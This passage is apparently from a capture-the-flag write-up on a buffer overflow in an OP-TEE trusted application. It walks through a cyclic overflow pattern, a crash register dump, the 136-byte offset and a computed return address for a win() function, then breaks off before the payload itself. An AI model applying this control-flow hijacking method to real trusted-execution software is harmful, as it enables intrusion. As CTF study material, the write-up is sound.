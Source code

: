 The new command use two named pipe (`/tmp/flagstorage.in` and `/tmp/flagstorage.out`) for RX and TX or the OP-TEE UART. Then, just launch `run.sh` and `cat /tmp/flagstorage.out`, you will see OP-TEE console.

If you crash the TA, you will get `TEEC_InvokeCommand failed with code 0xffff3024 origin 0x3` on the Linux console. But on the OP-TEE console, you get the registers values when the fault is triggered.

Let's put a flag of size -1 (0xff after truncation) with a pattern :

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4A
```

OP-TEE console will give you :

```
E/TC:? 0 User TA prefetch-abort at address 0x3765413665413565 (translation fault)
E/TC:? 0  esr 0x82000004  ttbr0 0x200000e177000   ttbr1 0x00000000   cidr 0x0
E/TC:? 0  cpu #0          cpsr 0x20000100
E/TC:? 0  x0  0000000000000000 x1  0000000000000040
E/TC:? 0  x2  0000000000000000 x3  0000000000000001
E/TC:? 0  x4  000000004002abfc x5  0000000000000000
E/TC:? 0  x6  00000000ffffffff x7  0000000000000020
E/TC:? 0  x8  0000000000000001 x9  000000004001c50a
E/TC:? 0  x10 000000004001412c x11 000000009cc7989c
E/TC:? 0  x12 000000002e02520f x13 000000004002abd8
E/TC:? 0  x14 0000000000000000 x15 0000000000000000
E/TC:? 0  x16 000000000e114434 x17 6d2de8b000000000
E/TC:? 0  x18 3917397200000000 x19 6641396541386541
E/TC:? 0  x20 4132664131664130 x21 000000004002af30
E/TC:? 0  x22 0000000000000027 x23 000000004002af80
E/TC:? 0  x24 0000000000000538 x25 000000004002af88
E/TC:? 0  x26 0000000000000002 x27 0000000000000538
E/TC:? 0  x28 0000000000000000 x29 4134654133654132
E/TC:? 0  x30 3765413665413565 elr 3765413665413565
```

You can see that X19, X20, X29 and X30 have been overwritten. To convert X30 in ASCII :

```sh
echo "3765413665413565" | xxd -r -ps | tac -r -s "."
# e5Ae6Ae7
```

The bytes `e5Ae6Ae7` are at offset 136 (0x88 in hex) in our input.

If you overflow 136 bytes, there is no crash. With 137 bytes, you overwrite first byte of X30 and get a crash. Thanks to the secure UART, you get the 7 remaining bytes of X30 in the crash data : 0x00000000400143XX. You can guess that XX is 0xdc (as this is the expected end of X30 value). The right value for `win()` function is **0x40011020** computed from (0x400143dc - 0x000033dc + 0x20).

Now that we have the right value of X30, the exploit is easy :

So here is our payload :
